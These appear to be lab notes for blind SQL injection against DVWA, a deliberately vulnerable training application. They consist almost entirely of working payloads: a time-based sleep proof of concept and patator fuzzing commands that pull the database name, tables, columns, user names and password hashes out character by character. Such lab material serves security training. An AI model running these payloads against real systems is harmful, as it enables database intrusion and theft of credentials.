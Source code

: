 LOW

[[Patator]]

http://dvwa.local/vulnerabilities/sqli_blind/?id=1

POC:
```
1' AND sleep (10)-- - 
```

Find the length of the database:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and length(database())='RANGE0&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-10" -x ignore:fgrep="User ID is MISSING from the database."
```

Retrieve the name of the database:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring(database(),RANGE0,1))='RANGE1&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-4" 1="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

Find number of databases:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and (SELECT count(schema_name) from information_schema.schemata)='RANGE0&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-10" -x ignore:fgrep="User ID is MISSING from the database."
```

Find names of databases:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT schema_name from information_schema.schemata LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-1" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

`information_schema` and `dvwa`

Enumerate dvwa tables:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and (SELECT count(table_name) from information_schema.tables where table_schema='dvwa')='RANGE0&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-10" -x ignore:fgrep="User ID is MISSING from the database."
```

Enumerate the table names:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT table_name from information_schema.tables where table_schema='dvwa' LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-1" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```


```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

`guestbook` and `users`

Enumerate `users` table:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and (SELECT count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')='RANGE0&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-10" -x ignore:fgrep="User ID is MISSING from the database."
```

There are 8 columns, enumerate the names of the columns:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT column_name from information_schema.columns where table_schema='dvwa' and table_name='users' LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-7" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

`user_id`, `first_name`, `last_name`, `user`, `password`, `avatar`, `last_login` and `failed_login`

Enumerate `first_name` and `users`
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and (SELECT count(first_name) from dvwa.users)='RANGE0&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-10" -x ignore:fgrep="User ID is MISSING from the database."
```

Enumerate first_name:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT first_name from dvwa.users LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-7" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

`admin`, `Gordon`, `Hack`, `Palbo`, `Bob`

Enumerate users:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT user from dvwa.users LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-7" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

Enumerate passwords:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT password from dvwa.users LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-7" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

MEDIUM

Same as above, however, the `'` needs to be removed from all payloads, such as:

POC:
```
1 AND sleep (10)-- - 
```